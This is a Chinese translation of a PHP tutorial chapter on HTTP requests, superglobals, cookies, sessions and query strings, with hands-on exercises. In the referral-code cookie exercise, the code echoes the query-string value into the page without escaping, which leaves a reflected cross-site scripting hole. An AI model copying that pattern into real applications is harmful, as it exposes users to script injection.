

# 6. 使用 HTTP

概述

到本章结束时，你将能够解释应用程序的请求-响应周期；解释各种 HTTP 方法；执行数据清理和验证；跟踪用户会话数据；并构建一个 Web 应用程序。

本章为你提供了在实用 Web 应用程序中使用和实现 HTTP 请求的必要工具。你将熟悉请求类型和 URL 组件，并了解**万维网**（**WWW**）上的常见漏洞，以及如何保护你的应用程序免受此类攻击。

# 简介

到目前为止，我们已经分析了 PHP 语言本身——包括数据类型、表达式、运算符和控制语句——以及如何在函数和类中使用它们。在我们利用所学知识构建一个网络应用程序之前，理解网络应用程序中的客户端-服务器通信至关重要。

网络应用程序（即网站）被设计为对每个请求返回一个响应，这导致了**请求-响应周期**。在 Web 应用程序的世界里，这个周期是通过**超文本传输协议**（**HTTP**）来完成的，这是一个确保双方使用相同的语言或结构的协议。HTTP 要求以两种方式发送数据——从客户端到服务器（请求），然后反过来；也就是说，从服务器到客户端（响应），从而完成周期。请求-响应周期并不一定意味着在应用逻辑中发生冲突；它可能是一个对资源的请求，例如 CSS 文件、图片，甚至是 PDF 文件。本质上，大多数文件下载都是 HTTP 请求的结果。所有典型的 Web 应用程序都需要一些 HTTP 请求来在 WWW 上提供内容。

在本章中，我们将使用各种 HTTP 方法执行 HTTP 请求。我们将通过清理和验证输入数据来在 PHP 中处理这些 HTTP 请求，并学习如何保护应用程序免受恶意请求的侵害。到本章结束时，你将使用基本身份验证、文件上传和临时数据存储功能构建你的第一个 Web 应用程序。

# 网络应用程序的请求-响应周期

要了解应用程序如何在浏览器中加载，或者它是如何从服务器获取数据的，了解请求-响应周期非常重要。请求-响应模型被广泛使用，并且不仅适用于 Web 应用程序（如使用浏览器）。实际上，它也用于机器之间的通信；例如，从数据库获取数据，这涉及到应用系统的一侧和数据库系统的一侧。在这种情况下，应用程序是数据库系统的客户端。

HTTP 是 Web 应用程序中最常用的协议，由于它可能需要整本书来介绍，我们在这里只介绍最重要的部分，解释它是如何工作的。

每个 Web 应用都会接收一个请求并为它准备一个响应。通常，Web 应用的请求-响应周期看起来类似于以下这样：

1.  客户端发起一个请求；例如，`GET /path`。

1.  服务器接收请求并查找指定 URI 的现有或静态文件，并将其返回给客户端。如果静态文件不存在，则将请求视为动态请求，并将其发送到应用程序。

1.  应用程序准备并发送响应回服务器层（即，它处理请求）。

1.  服务器将应用程序的响应转发给客户端：


图 6.1：Web 应用的请求-响应周期

让我们了解这里发生了什么：

1.  Web 应用的**客户端**通常是浏览器，所以以下内容我将坚持使用浏览器作为客户端。每次通过浏览器的地址栏访问 URL、提交表单或执行 AJAX 的背景调用时，都会向该 URL 发出新的请求。在主机名（或网站域名）之后，它是服务器 IP 地址的别名，请求将击中服务器。

1.  **服务器**在 Web 应用中扮演着非常重要的角色。在这种情况下，它将尝试仅将动态请求路由到 PHP 应用程序。因此，服务器配置中的一条规则可能是检查应用程序公共 Web 目录内的文件，根据 URI 返回文件；如果文件不存在，则将请求视为动态请求并将其转发到 PHP 应用程序。

1.  应用程序接收请求并根据它执行某些操作，例如从数据库中检索英雄列表并按特定顺序列出它们，然后准备响应并发送回去。

1.  服务器将简单地转发那个响应到开放的请求。

当然，这是一个简化的应用程序基础设施设置和请求-响应周期的基础示例。如今，尤其是在考虑可扩展性的情况下设计 Web 应用时，图表看起来会非常不同。然而，好事是作为开发者的你不必担心这一点，或者至少目前不必。

在这里需要记住的是，每个 Web 应用都是设计用来对请求做出响应的，无论请求来自何方——无论是`nginx`服务器还是内置服务器——因为所有请求看起来都是一样的。

## 典型的 HTTP 请求

每个 HTTP 请求都会由 PHP 自动解析。

这里是一个 HTTP 请求的示例，当访问[`www.packtpub.com/tech`](https://www.packtpub.com/tech) URL 时：


图 6.2：一个示例 HTTP 请求

这些标头是由浏览器生成的。从这个请求中，应用程序可以利用大量信息。首先，这是一个针对 `/tech` URI 的 `GET` 请求，使用 `HTTP/1.1` 协议（第 1 行），调用主机是（第 2 行）。浏览器根据地址栏中的 URL 设置这些参数。`Connection` 标头设置为 `keep-alive`，意味着与服务器的连接不会关闭，并且可以对该服务器发出后续请求（第 3 行）。

`Upgrade-Insecure-Requests` 标头向服务器提供提示，让服务器知道客户端更喜欢加密和认证的响应（即，它更喜欢 HTTPS 而不是 HTTP）。`User-Agent` 标头包含客户端信息——在这种情况下，它是 Chromium 浏览器——提供有关构建的有用信息。`Accept` 标头给我们提供了客户端期望的内容的提示，按质量分组。这里的 `q` 被称为因子权重，它给出了此标头条目中每个值的品质，其中较大的数字与较高的品质相关联。默认值为 `*/*`，意味着期望任何内容类型。因此，在我们的情况下，它以最低的品质出现：`0.8`。`Accept-Encoding` 详细说明了响应的内容编码，客户端能够理解。`Accept-Language` 标头详细说明了客户端能够理解的语言以及首选的区域设置；同样，这也是按优先级分组，使用相同的 `q` 权重因子。`Cookie` 标头是最重要的标头之一，是从客户端向服务器发送数据的一种方便方式。我们将在稍后更多地讨论这一点。

## 典型的 HTTP 响应

对于之前的请求，我们将得到以下响应标头：


图 6.3 一个示例 HTTP 响应

响应中最重要的信息是响应状态，其中 **2xx** 与成功请求相关联。状态的全列表可以在 [`packt.live/2owOHG2`](https://packt.live/2owOHG2) 找到。在我们的情况下，我们得到了 **200 OK**，这意味着请求成功。在众多知名的 HTTP 响应状态中，以下是一些：


图 6.4：HTTP 响应状态

一些最常见的标头包括以下内容：

+   **Date**：这代表 HTTP 响应消息创建的日期和时间。

+   **Content-Type**：这用于指示资源的媒体类型（或 **Multipurpose Internet Mail Extensions** （MIME）类型）。

+   Expires：这包含响应被认为过时的日期/时间。

+   **Cache-Control**：这用于指定缓存机制的指令。

+   `gzip`、`deflate` 和 `br` 标头，表明 `gzip` 是浏览器使用的已知编码机制。因此，服务器使用 `gzip` 对数据进行压缩。

+   非标准 **X-** 前缀的头部：尽管这个约定已经被弃用，但它仍然用于自定义专有头部。

## 请求方法

正如我们之前提到的，请求在消息的开头有一个 `GET` 令牌，这意味着它是一个 `GET` 类型的请求。这是最常用的 HTTP 请求类型之一，因为它是一种从服务器获取数据的方式，无论是 HTML 页面、图像、`PDF` 文档还是纯文本数据。正如你可能猜到的，还有更多类型的 HTTP 请求，包括 `POST`、`OPTIONS`、`HEAD`、`PUT` 和 `DELETE` 等。我们在这里不会涵盖所有这些，只介绍必要的。

## GET HTTP 请求

`GET HTTP` 请求是用于 Web 应用程序中最常用的。它提供了从服务器请求的资源所需的信息。这些资源信息可以放在 `query string`、URL 的 `path` 或两者中。

让我们检查 [`www.packtpub.com/tech/PHP`](https://www.packtpub.com/tech/PHP) URL 的组成：

1.  首先，我们有协议 – `https` – 这意味着使用了安全的 HTTP 协议。

1.  然后，是主机名，指向所需资源的位置。

1.  最后，是路径，指向 *资源标识符*。

因此，我们可以这样说，URL 描述了 *如何* (`https`)，*从哪里* ([www.packtpub.com](http://www.packtpub.com))，以及 *什么* (`/tech/PHP`) 被请求，尤其是在涉及到 `GET` 请求的情况下。这在下图中得到了可视化：


图 6.5：URL 组件的解释

重要提示：*出于安全原因，请不要使用 GET 发送敏感信息，例如登录凭据*。因为 `GET` 使用查询字符串发送数据，而这些数据是 URL 的一部分，对每个人都是可见的。因此，它将保留在浏览器历史记录中——这意味着您的浏览器实际上会将您的登录 URL 保留在其历史记录中。这可以在下图中观察到：


图 6.6 通过 GET HTTP 方法发送登录凭据

这只是说明这种方法在发送敏感信息时很糟糕的一个例子。更好的方法是使用 `POST` 方法发送您不希望存储在浏览器历史记录中的数据；这些数据可能包括登录凭据、更新您的个人（或任何）详细信息、文件上传和问卷调查。相反，在需要过滤和排序的页面列表中使用 `GET` 方法是合适的。因此，将过滤和排序参数放在 URL 的查询字符串组件中是合适的，这样当我们标记或分享 URL 时，您可以在稍后或从另一个浏览器或位置访问 URL 时获得相同的过滤和排序项。

## POST HTTP 请求

`POST`请求用于在服务器上创建、修改和/或删除资源。这是因为`POST`请求有一个主体，而不仅仅是头部。因此，你可以向`/some/uri`发送`POST`请求并在请求主体中发送数据，有两种方式：默认情况下，作为 URL 编码的参数（`application/x-www-form-urlencoded enctype`）；或者作为多部分表单数据（`multipart/form-data enctype`）。这两种方法之间的区别基于发送到服务器的数据类型。因此，当你想要上传图片、PDF 文档或其他文件时，你会使用多部分表单数据；否则，URL 编码的数据就足够了。

从 HTML 发送多部分表单数据时，只需将`enctype`属性添加到`form`元素中，如下面的代码片段所示：

```php
<form method="post" enctype="multipart/form-data">
    <input type="file" name="myfile" >
    <input type="submit" value="Upload">
</form>
```

此外，浏览器将设置适当的`Content-Type`请求头，如下所示：

```php
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryS8mb
```

在这里使用的**边界**术语用于指定发送内容分隔符，最好是一个随机非字典字符串，它不太可能出现在发送的有效载荷中。在使用浏览器中的 HTML 表单时，你不必关心这个参数，因为它的值是由浏览器自动生成和设置的。

相反，当你只想发送一些映射的文本数据，而不进行上传时，你可以使用`application/x-www-form-urlencoded`作为`enctype`属性，当`enctype`属性缺失时，它被设置为默认值，如下面的代码片段所示：

```php
<form method="post" enctype="application/x-www-form-urlencoded">
    <input type="text" name="nickname">
    <input type="submit" value="Save">
</form>
```

URL 编码的表单使用命令行工具，如`curl`发送非常简单。

上述`form`元素的示例命令如下所示：

```php
curl 'http://127.0.0.1:8080/form-url-encoded.php' -H 'Content-Type: application/x-www-form-urlencoded' --data 'nickname=Alex' 
```

这假设`127.0.0.1:8080`是我们服务器监听的位置，而`form-url-encoded.php`是处理请求的 PHP 文件。

+   在注册、订阅通讯录和内容搜索表单的情况下，应该使用哪种方法？为什么？

+   使用`POST`和`GET`方法提交`form`有哪些其他用例？（例如，发表评论、评分产品、分页等。）

一些服务器将查询字符串长度限制为 1,024 个字符；例如，在`Internet Information Server`（`IIS`）的情况下。这个限制可以在任何服务器上配置，但在日常使用中，你不太可能遇到这样的问题。与`GET`方法不同，使用`POST`，你发送 HTTP 请求的数据没有限制。目前，PHP 中每个请求的`POST`有效载荷默认限制为 8 MB，可以在设置中随意增加。

# 查询字符串

查询字符串是 URL 的一部分，包含以键值对形式描述的数据。每个键值对由与符号（`&`）分隔，而 URL 路径与其查询字符串之间的分隔符是一个问号（`?`）。

作为一个例子，我们将使用以下虚构的 URL：

[`www.bookstore.com/books/?category=Comics&page=2`](https://www.bookstore.com/books/?category=Comics&page=2)。

在这里，查询字符串是`category=Comics&page=2`，参数是`category`和`page`，分别对应`Comics`和`2`的值。值得注意的是，可以存储数据的参数随后被解析为值的数组。例如，给定`/filter?tags[]=comics&tags[]=recent` URI，标签查询字符串参数将产生一个包含两个值——`comics`和`recent`的数组。

查询字符串主要用于访问服务器上的资源，而不是作为创建、更新或删除的指令。因此，当没有其他上下文干扰（如登录用户偏好、访客位置或其他）时，带有查询字符串的 URL 在任何浏览器中都会列出相同的结果。看看您在最喜欢的搜索引擎中进行搜索后 URL 看起来像什么。

注意

在[`developer.mozilla.org/en-US/docs/Glossary/HTTP`](https://developer.mozilla.org/en-US/docs/Glossary/HTTP)了解更多关于 HTTP 的信息。

在[`packt.live/33p2o8y`](https://packt.live/33p2o8y)或[`packt.live/2BcUNxL`](https://packt.live/2BcUNxL)了解更多关于 URL 的信息。

在[`packt.live/31fFtey`](https://packt.live/31fFtey)了解更多关于查询字符串的信息。

# PHP 超全局变量

PHP 引擎使用一组可在 PHP 脚本中的任何位置访问的内置变量，称为**超全局变量**。这些超全局变量包含的数据大多与请求相关，但也包含一些服务器信息和正在运行的 PHP 脚本文件信息。

最常用的超全局变量是`$_SERVER`、`$_SESSION`、`$_GET`、`$_POST`、`$_COOKIE`和`$_FILES`变量。

良好的实践是在整个项目中不要随意修改超全局变量，这意味着最好不要修改现有数据，也不要从这些变量中添加或删除数据。理想情况下，您应该只在每个请求中访问一次。`$_SESSION`是这方面的一个例外，因为其数据由应用程序提供，而不是由 PHP 引擎提供。

您可以通过访问官方 PHP 文档页面深入了解超全局变量，页面地址为[`php.net/manual/en/language.variables.superglobals.php`](http://php.net/manual/en/language.variables.superglobals.php)。

## $_SERVER

`$_SERVER` 超全局变量包含请求头、服务器信息、路径、环境变量以及由网络服务器设置的其他数据。简而言之，请求头的名称被转换为大写，`-`（破折号）被替换为`_`（下划线），并在前面添加`HTTP_`（例如，`User-Agent`头名称变为`HTTP_USER_AGENT`）。请求的信息字段名称（如 URI 和方法）前面加上`REQUEST_`前缀，等等。`$_SERVER`超全局变量中的大多数名称都在`CGI/1.1 规范`中有说明。

## 练习 6.1：输出$_SERVER 数据

在以下练习中，我们将向浏览器中转储每个 HTTP 请求的`$_SERVER`数据，并识别 Web 应用程序使用的键数据。在我们继续之前，请创建一个目录并使用终端导航到该新目录。所有创建的文件都将保存在此目录中；例如，假设创建的目录是`/app`。

注意

为了向 PHP 脚本发送 HTTP 请求（即通过浏览器访问脚本），你需要启动内置的 PHP 开发服务器。为此，请在`/app`工作目录中运行启动开发服务器的命令：`php -S 127.0.0.1`。为了进行接下来的练习，请保持服务器运行。

1.  创建一个名为`super-server.php`的 PHP 文件，并写入以下代码：

    ```php
    <?php echo sprintf("<pre>%s</pre>", print_r($_SERVER, true)); 
    ```

1.  通过内置服务器访问文件，在`http://127.0.0.1:8080/super-server.php/my-path?my=query-string`。

    输出应该看起来像以下这样：

    

    图 6.7 浏览器窗口中的服务器数据

1.  使用以下命令在终端中运行`super-server.php`文件：

    ```php
    php super-server.php
    ```

    输出应该看起来像以下这样：


图 6.8 终端中的服务器数据

在由*WWW*（由于 URL 访问而运行）调用的脚本中，常用的输入有`REQUEST_URI`；`REQUEST_METHOD`；`PATH_INFO`；`REMOTE_ADDR`，这是发送请求的客户端的网络地址（或者在运行你的应用程序在负载均衡器或反向代理后面时，例如，使用`HTTP_X_FORWARDED_FOR`）；以及`HTTP_USER_AGENT`。

在前面的脚本中，你会注意到`/my-path`路径在`PATH_INFO`中解析，而查询字符串在`QUERY_STRING`中，整个 URI 在`REQUEST_URI`中可用。这些是用于将请求路由到 Web 应用程序中适当的 PHP 脚本，以便脚本可以处理它们并生成响应的输入。

在命令行脚本（在终端中运行或在系统特定间隔内计划运行）的情况下，最常用的`$_SERVER`输入是`argv`和`argc`，以及`REQUEST_TIME`和`REQUEST_TIME_FLOAT`，以及`PWD`。`argv`是传递给 PHP 可执行程序的参数值列表。

第一个参数（位置零）是要执行的文件（或静态语句，标准输入代码，在运行内联 PHP 代码的情况下；例如，`php -r 'print_r($_SERVER);'`）。现在，`argc`是输入参数的计数。`REQUEST_TIME`和`REQUEST_TIME_FLOAT`代表脚本开始执行的时间，用于日志记录或各种基准测试。`PWD`是当前工作目录，在脚本应该相对于磁盘上的当前位置执行操作时很有用，例如打开文件或保存到当前目录中的文件。

与从浏览器发出的请求不同，在命令行界面运行时，`$_SERVER` 变量包含的数据要少得多。没有更多的 `HTTP_*` 条目和 `SERVER_*` 条目，因为请求不再是通过 HTTP 进行；`QUERY_STRING` 和 `REQUEST_METHOD` 等其他内容也缺失。

## $_COOKIE

`$_COOKIE` 超全局变量包含在浏览器中存储的所有 cookie 数据（当浏览器是 HTTP 客户端时），由同一主机通过响应头或 JavaScript 存储。由于 HTTP 请求是无状态的 – 意味着它们是独立且相互无关的 – 使用 cookie 是跟踪 Web 应用程序中用户会话的绝佳方式，同时也为每位访客提供定制体验。想想与广告偏好设置相关的设置，跟踪来自多个来源的转换的参考代码，以及其他。Cookies 是**不可见**的数据；也就是说，它们不会出现在 URL 中，也不会由 HTML 表单的提交按钮触发。它们由应用程序在浏览器中设置，并且浏览器会在每个 HTTP 请求中发送它们。Cookies 对浏览器用户是可见的，更重要的是，用户可以删除它们 – 这是一个应用程序必须处理的事实。

可以使用 PHP 内置函数 `setcookie()` 存储 cookie，我们可以在后续的 HTTP 请求中从 `$_COOKIE` 超全局变量中获取这些键值对。要设置一个 cookie，只需调用 `setcookie("cookie_name", "cookie_value")`，其值将存储到浏览器关闭为止。或者，为了使 cookie 的寿命超过浏览器会话，必须在函数的第三个参数中指定 cookie 的过期时间，作为一个 Unix 时间戳。例如，要允许 cookie 持续两天，可以调用 `setcookie("cookie_name", "cookie_value", time()+60*60*24*2)`。

`setcookie()` 函数接受一个 cookie 名称作为第一个参数，cookie 值作为第二个参数，Unix 时间（以秒为单位）作为过期时间的第三个参数。

语法如下：

```php
setcookie(
  string $name, string $value = "", int $expires = 0, string $path = "",
  string $domain = "", bool $secure = FALSE, bool $httponly = FALSE
): bool
// or
setcookie(string $name, string $value = "", array $options = []) : bool
```

参数如下：

+   **name**：cookie 的名称。

+   **value**：cookie 值；这是可选的。

+   **expires**：过期时间，作为一个时间戳 – 这是可选的；如果省略，cookie 将在浏览器关闭后删除。

+   `/tech`（这是可选的）。

+   **domain**：cookie 可用的（子）域名。在当前域名中设置的 cookie 将可用于当前域的任何子域名；这是一个可选参数。

+   **secure**：这表示 cookie 仅通过 HTTPS 请求（即安全请求）设置和传输；这是可选的。

+   **httponly**：这表示 cookie 仅对 HTTP 请求可用；在客户端的脚本语言（如 JavaScript）中不可用（即浏览器）。这是一个可选参数。

+   `expires`、`path`、`domain`、`secure`、`httponly`和`samesite`键。这些值的含义与同名的参数相同。`samesite`元素的值应该是`Lax`或`Strict`。此参数是可选的。

    注意

    关于`setcookie()`函数的完整 API，请访问[`packt.live/2MI81YC`](https://packt.live/2MI81YC)。

## 练习 6.2：设置和读取 cookie

在以下练习中，你将设置一个 cookie，然后使用 HTML 表单发送数据，在 PHP 脚本中读取它。

执行此练习的步骤如下：

1.  创建一个名为`super-cookie.php`的文件。

1.  将推荐代码存储在 cookie 中，以便我们可以在以后读取它（例如，在注册时，以了解谁将此用户推荐给我们）。此代码如下：

    ```php
    if (array_key_exists('refcode', $_GET)) {
    // store for 30 days
        setcookie('ref', $_GET['refcode'], time() + 60 * 60 * 24 * 30); 
    } else {
        echo sprintf('<p>No referral code was set in query string.</p>');
    }
    ```

    在这里，要存储的 cookie 值将从`refcode`查询字符串参数中读取：`/?refcode=etc`。因此，对于每个请求，我们都需要在`$_GET`变量中检查此条目，如果找到，则保存具有 30 天生命期的 cookie；否则，只需打印`查询字符串中没有设置推荐代码。`cookie 名称是用户定义的，在这里我们将其命名为`ref`。

    注意

    我们使用`time()`函数获取当前的 Unix 时间，以秒为单位。因此，对于当前时间，我们应该加上 60（秒）乘以 60（分钟）乘以 24（小时）乘以 30（天），以便 cookie 在 30 天后过期。

1.  此外，在存储 cookie 时，我们可能还想知道保存了什么代码，并包括一个指向同一脚本的链接（不带查询字符串），以避免在页面刷新时存储 cookie。执行此操作的代码如下：

    ```php
    if (array_key_exists('refcode', $_GET)) {
    // store for 30 days
        setcookie('ref', $_GET['refcode'], time() + 60 * 60 * 24 * 30);
        echo sprintf('<p>The referral code [%s] was stored in a cookie. ' .
            'Reload the page to see the cookie value above. ' .
            '<a href="super-cookie.php">Clear the query string</a>.</p>',           $_GET['refcode']);
    } else {
        echo sprintf('<p>No referral code was set in query string.</p>');
    }
    ```

1.  接下来，编写代码以打印存储在浏览器中并通过 HTTP 请求发送到脚本的 cookie 值。为此，我们必须读取`$_COOKIE`变量。如果不存在`ref`条目，则显示`-NONE-`。执行此操作的代码如下：

    ```php
    echo sprintf(
        '<p>Referral code (sent by browser as cookie): [%s]</p>',       array_key_exists('ref', $_COOKIE) ? $_COOKIE['ref'] : '-None-'
    );
    ```

    注意

    当第一次保存 cookie 时，我们也会得到`-None-`，因为 cookie 是在请求-响应周期完成后保存的，在这种情况下，请求没有`ref`cookie（即它尚未在浏览器中），但有`refcode`查询字符串参数，这使得脚本在响应中设置`ref`cookie 值（然后它将被浏览器保存）。

1.  此外，为了便于发送不同的推荐代码进行测试，让我们使用类型为`GET`的表单，使用具有`refcode`名称的输入（它将在表单提交时出现在`查询字符串`中）和`EVENT19`默认值：

    ```php
    <form action="super-cookie.php" method="get">
        <input type="text" name="refcode" placeholder="EVENT19" value="EVENT19">
        <input type="submit" value="Apply referral code">
    </form>
    ```

    注意

    当在 HTML `form`元素中没有指定方法时，默认值是`GET`。

    如此例所示，要在同一文件中使用 PHP 脚本和 HTML，我们需要在`<?php`和`?>`标记之间包含 PHP 脚本。

    注意

    你可以在[`packt.live/2IMViTs`](https://packt.live/2IMViTs)找到完整的代码。

1.  通过内置服务器访问文件，地址为`http://127.0.0.1:8080/super-cookie.php`。

    输出应该看起来像这样：

    

    图 6.9 首次访问 super-cookie.php 时的输出

1.  点击“应用推荐代码”按钮，注意新页面的内容，它应该看起来像这样:

    图 6.10：提交表单后 super-cookie.php 的输出

    在这个阶段，通过点击“应用推荐代码”按钮，表单数据已经被序列化为 URL 查询格式（参考前面图表中的`refcode=EVENT19`部分）。访问表单目标 URL 使脚本从查询字符串中读取数据，并使用提供的`EVENT19`值设置 cookie。

1.  点击“清除查询字符串”，你会看到脚本能够解析并显示 cookie 数据。现在输出应显示在上一步骤中设置的 cookie 值：


图 6.11：随后的请求中 super-cookie.php 的输出

在 Chrome DevTools 窗口中显示 cookie 值。


图 6.12 在 Chrome DevTools 窗口中显示的 ref cookie 值。

现在 URL 中不包含查询字符串，这意味着我们的脚本没有要处理的内容。由于在之前的请求中设置了 cookie 数据，因此它将通过 HTTP 请求发送，并在浏览器页面上显示。

## $_SESSION

`$_SESSION` 与 HTTP 请求无关，但它是一个非常重要的变量，因为它保存了用户的`状态数据`；也就是说，在随后的请求中保持某些数据。与 cookies 相比，会话数据存储在服务器上；因此，数据不能被客户端访问。会话数据用于存储已登录用户数据（至少是 ID）和临时数据（如闪存消息、CSRF 令牌、购物车项目等）。

要在会话中存储一个条目，只需将其添加到`$_SESSION`超级全局关联数组中即可，如下所示：`$_SESSION['user_id'] = 123;`。

默认情况下，PHP 不会自动启动会话，这意味着它不会生成会话 ID，也不会设置包含会话 ID 值的 cookie 头。因此，你必须调用`session_start()`来初始化会话。然后 PHP 将尝试从**Cookie**请求头中加载存储在`PHPSESSID`变量（默认名称）中的会话 ID，如果不存在这样的条目名称，则将启动一个新的会话，并将会话 ID 发送回客户端，作为当前响应头的一部分。

## 练习 6.3：从会话中写入和读取数据

在这个练习中，我们将实现会话初始化，并从会话中写入和读取数据。如果会话是第一次打开，那么我们将保存随机数据以检查会话是否为后续请求保留保存的数据。随机数据将保存在`$_SESSION`变量的`name`键中。以下是执行练习的步骤：

1.  创建一个名为`session.php`的文件。

1.  编写代码以启动会话，并在`session_start()`函数不返回`TRUE`时显示`Cannot start the session`字符串：

    ```php
    if (!session_start()) {
        echo 'Cannot start the session.';
        return;
    }
    ```

    要在 PHP 中使用会话，您需要*启动会话*。这将执行一系列操作，例如生成会话 ID、创建用于存储数据的会话文件或连接到数据提供者服务，具体取决于`ini`文件的设置。如果会话无法启动，则没有继续的理由，因此我们将显示错误消息并停止脚本执行。

    如果会话已启动，我们可能希望获取会话名称——这是 ID 在 cookie 中保存的名称。默认会话名称是`PHPSESSID`。

1.  编写代码以获取会话名称：

    ```php
    $sessionName = session_name(); // PHPSESSID by default
    ```

1.  如果会话尚未初始化（即没有包含`PHPSESSID`变量的 cookie），我们可能希望使用以下代码通知用户：

    ```php
    echo sprintf('<p>The cookie with session name [%s] does not exist.</p>',   $sessionName);
    ```

1.  此外，使用以下代码打印出保存在`$sessionName`cookie 条目下的新鲜会话 ID：

    ```php
    echo sprintf(
        '<p>A new cookie will be set for session name [%s], with value [%s]      </p>',
        $sessionName,
        session_id()
    );
    ```

    `session_id()`函数返回属于访问页面的用户的当前会话 ID。它在每次调用`session_start()`时生成，同时，在 HTTP 请求中找不到包含会话 ID 的 cookie。

    注意

    我们不需要使用函数来设置包含生成的会话 ID 的 cookie。这会在调用`session_start()`时自动完成。

    使用`rand()`函数从索引数组中选择随机值应该很简单。`rand()`将返回一个介于给定最小值和最大值之间的随机数。在我们的例子中，对于数组中的三个值，我们需要一个介于 0 和 2 之间的索引。

1.  使用以下代码在会话中存储随机条目，使用`name`键：

    ```php
    $names = [
        "A-Bomb (HAS)",
        "Captain America",
        "Black Panther",
    ];
    $chosen = $names[rand(0, 2)];
    $_SESSION['name'] = $chosen;
    ```

1.  打印一条消息，让我们知道会话中保存的值和发送到浏览器的头信息（以查看保存会话 ID 的`Set-Cookie`头信息）：

    ```php
    echo sprintf('<p>The name [%s] was picked and stored in current session.  </p>', $chosen);
    echo sprintf('List of headers to send in response: <pre>%s</pre>',   implode("\n", headers_list()));
    ```

1.  我们已经看到了当会话尚未初始化时应该做什么。现在，如果会话已经初始化，我们将打印会话名称和会话 ID（来自请求 cookie 的值），并且我们还将转储会话数据：

    ```php
    echo sprintf('<p>The cookie with session name [%s] and value [%s] ' .
        'is set in browser, and sent to script.</p>', $sessionName,       $_COOKIE[$sessionName]);
    echo sprintf('<p>The current session has the following data:   <pre>%s</pre></p>', var_export($_SESSION, true));
    ```

    注意

    一旦初始化会话，后续的每个请求都将显示相同的数据，并且用户会话数据中执行的所有更改也将反映在后续请求中。会话数据可以被视为用户的存储单元，就像 cookies 一样，但位于服务器端 – 客户端和服务器之间的链接是通过会话 ID 实现的。

    整个脚本文件可以在[`packt.live/31gZKAe`](https://packt.live/31gZKAe)中查阅。

1.  通过内置服务器访问文件`http://127.0.0.1:8080/session.php`。

    首次输出将如下所示：

    

    图 6.13：首次访问 session.php – 初始化新的会话和设置 cookie

    cookie 的值如下所示：

    

    图 6.14：在访问/session.php 页面后 Chrome DevTools 中的 cookie 值

1.  刷新页面；输出应该如下所示：

    图 6.15：后续访问 session.php – 使用 cookie 中的 ID 恢复会话数据

    注意

    由于`$names`数组中的值是随机选择的，所以看到的值可能是三种可能值之一

1.  清除当前页面的 cookies 并重新加载页面。请注意，如果没有已经设置的`PHPSESSID` cookie，将生成并设置一个新的会话 ID。

    下面是对脚本的解释：首先，脚本将尝试启动会话，并会在 cookie 中查找会话 ID。接下来，脚本将检查是否存在这样的 cookie，使用`session_name()`函数获取会话使用的名称，然后从中存储和检索会话 ID。如果找到具有该名称的 cookie，则其值将被打印，同时也会打印会话数据。否则，它将通知你生成的会话 ID，并将其设置为存储在 cookie 中，并从当前会话中随机选择一个字符名称进行存储。此外，还会打印出要发送到响应中的头部列表，以确保发送了（会话）set-cookie 头部。

    注意

    在[`packt.live/31x8MJC`](https://packt.live/31x8MJC)了解更多关于会话函数的信息。

## $_GET

`$_GET` 包含请求 URI 的解析后的查询字符串，无论请求方法如何。因此，一个如 `/?page=2` 的 URI 将导致以下 `$_GET` 值：`["page" => 2]`。PHP 可以将查询字符串解析为嵌套数组，因此一个如 `tags[]=heroes&tags[]=2019` 的查询字符串将导致 `$_GET` 的值，例如 `[ "tags" => [ 0 => "heroes", 1 => "2019" ] ]`，将标签解析为数值数组。您可以使用查询字符串将其解析为关联数组；只需在方括号之间放置名称。例如，`filter[category]=heroes&filter[year]=2019` 将被解析为 `[ "filter" => [ "category"=> "heroes", "year"=> "2019" ] ]`。

## 练习 6.4：在网页中使用查询字符串

在这个练习中，我们将构建 HTTP 查询字符串，在网页链接中使用它们，并使用查询字符串数据。更确切地说，您将使用 `$_GET` 从列表中选择并显示特定的数据条目。

完成练习的步骤如下：

1.  创建一个名为 `super-get-href.php` 的文件，并在关联数组中定义一系列值，其中键是条目 ID，值是嵌套的关联数组，包含 `id` 和 `name` 键：

    ```php
    // define the data
    $heroes = [
        "a-bomb" => [
            "id" => 1017100,
            "name" => "A-Bomb (HAS)",
        ],
        "captain-america" => [
            "id" => 1009220,
            "name" => "Captain America",
        ],
        "black-panther" => [
            "id" => 1009187,
            "name" => "Black Panther",
        ],
    ];
    ```

    我们需要查询字符串来指出脚本应该选择哪个条目，所以让我们假设我们正在查询字符串中寻找的值位于 `hero` 名称下。因此，要获取角色 ID，`$heroId = $_GET['hero'];` 这个名称就能解决问题。然后，从我们的 `$heroes` 列表中选择角色条目应如下所示：`$selectedHero = $heroes[$heroId];`。在这里，`$selectedHero` 是条目，例如当 `$heroId` 是 `black-panther` 时，它类似于 `["id" => 1009187, "name" => "Black Panther"]`。

1.  添加 `$selectedHero` 变量的初始化并检查 `$_GET` 中是否存在 `hero` 条目；代码应如下所示：

    ```php
    $selectedHero = [];
    if (array_key_exists('hero', $_GET)) {
        if (array_key_exists($_GET['hero'], $heroes)) {
            $heroId = $_GET['hero'];
            $selectedHero = $heroes[$heroId];
        }
    }
    ```

1.  在我们显示角色数据之前，我们将检查 `$selectedHero` 变量是否有值。如果 `$selectedHero` 中找不到值，这意味着查询字符串参数中没有指定 `hero`，或者该值不在 `$heroes` 键列表中；因此，我们可以显示一个简单的 `None`：

    ```php
    <div style="background: #eee">
        <p>Selected hero:</p>
        <?php if ($selectedHero) { ?>
            <h3><?= $selectedHero['name'] ?></h3>
            <h4>ID: <?= $selectedHero['id'] ?></h4>
        <?php } else { ?>
            <p>None.</p>
        <?php } ?>
    </div>
    ```

